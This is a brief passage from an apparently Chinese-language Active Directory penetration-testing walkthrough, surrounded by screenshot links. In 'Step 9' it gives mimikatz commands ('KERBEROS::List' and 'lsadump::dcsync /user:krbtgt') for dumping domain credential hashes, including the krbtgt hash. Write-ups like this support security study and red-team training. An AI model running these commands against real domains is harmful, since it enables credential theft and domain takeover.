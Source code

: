 [![](assets/1701606771-4dcc880d141be2b7df80227c88ad4fa4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106144627-35bdf800-7c70-1.png)  
Step 9：之后可以利用 mimikatz，进行导出 hash

```plain
KERBEROS::List 
lsadump::dcsync /user:krbtgt
```

[![](assets/1701606771-71ed19a7f5d346953dbd71e812ce4d01.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106144647-41ab8a2e-7c70-1.png)  